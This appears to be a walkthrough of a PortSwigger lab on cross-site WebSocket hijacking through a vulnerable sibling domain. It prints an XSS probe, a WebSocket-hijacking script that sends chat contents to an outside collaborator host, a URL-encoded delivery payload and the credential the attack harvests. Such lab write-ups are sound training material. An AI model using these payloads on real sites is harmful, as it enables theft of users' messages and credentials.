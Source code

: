 ## Welcome, my friend. Today we will start the [9. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-restrictions-via-vulnerable-sibling-domains/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain#) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/c5878ebc-1a3e-4db4-89ee-bf49a75a4a87)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/262051e2-3a01-49ad-a173-d12739a996fa)


### Go to Live chat and send messages:

![image](https://github.com/user-attachments/assets/f5dc31b3-6696-49ef-b69c-9459fb4284de)

#### Intercept this request with burp suite:

![image](https://github.com/user-attachments/assets/df7f8306-48c2-40dc-914f-c8d997886c2a)


### we discover in response:

```
Access-Control-Allow-Origin: https://cms-0af100f50386c2ac823ccf6a00b700ce.web-security-academy.net
```
### we navigate inside this url:

![image](https://github.com/user-attachments/assets/40632135-0216-4cd4-9b49-dccb36edc1a9)

#### enter in username field:

```
 <script>alert(1)</script>
```

![image](https://github.com/user-attachments/assets/045c9ab8-ee32-45fb-94df-5022d5a8bb62)






### Now, Go to exploit server and paste this code:


```
<script>
    var ws = new WebSocket('wss://0af100f50386c2ac823ccf6a00b700ce.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://fq9m8borm4ikxo5fzxjnom5w7nde14pt.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
![image](https://github.com/user-attachments/assets/4442cf2e-d32b-4f1a-a400-bc0b6c91089e)


#### We will encode this payload to url encode:

![image](https://github.com/user-attachments/assets/443c6237-fe4e-41fd-8e68-e4d39495d47a)

#### and we will use this payload:

```
<script>
    document.location = "https://cms-0af100f50386c2ac823ccf6a00b700ce.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%66%31%30%30%66%35%30%33%38%36%63%32%61%63%38%32%33%63%63%66%36%61%30%30%62%37%30%30%63%65%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%66%71%39%6d%38%62%6f%72%6d%34%69%6b%78%6f%35%66%7a%78%6a%6e%6f%6d%35%77%37%6e%64%65%31%34%70%74%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```
![image](https://github.com/user-attachments/assets/42a74d28-5e06-466a-84d1-1d9929093c4c)

![image](https://github.com/user-attachments/assets/6c758b92-7005-438d-ab88-99d8ff668ccd)

### wow we got on cardential of carlos account:

```
carlos:a6en5vaqvt7fu8rleyxs
```

### Let's go to login:

![image](https://github.com/user-attachments/assets/ea9566b1-de6e-486a-8982-78ac71cbc784)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/b6688d7e-0108-4209-956a-6b157fef5c1e" >
</p>
